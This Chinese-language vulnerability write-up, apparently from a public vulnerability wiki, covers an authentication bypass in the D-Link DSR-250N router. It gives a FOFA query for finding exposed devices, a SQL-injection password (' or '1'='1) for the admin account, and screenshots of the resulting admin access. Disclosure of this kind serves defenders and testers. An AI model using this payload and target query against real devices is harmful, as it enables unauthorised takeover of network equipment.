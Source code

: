 # D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

> [!NOTE]
>
> D-Link DSR-250N

## FOFA

> [!NOTE]
>
> app="D_Link-DSR-250N"

## 漏洞复现

登录页面如下

![image-20210609175053339](http://wikioss.peiqi.tech/vuln/image-20210609175053339.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
user: admin
pass: ' or '1'='1
```

成功登录后台

![image-20210609175150907](http://wikioss.peiqi.tech/vuln/image-20210609175150907.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)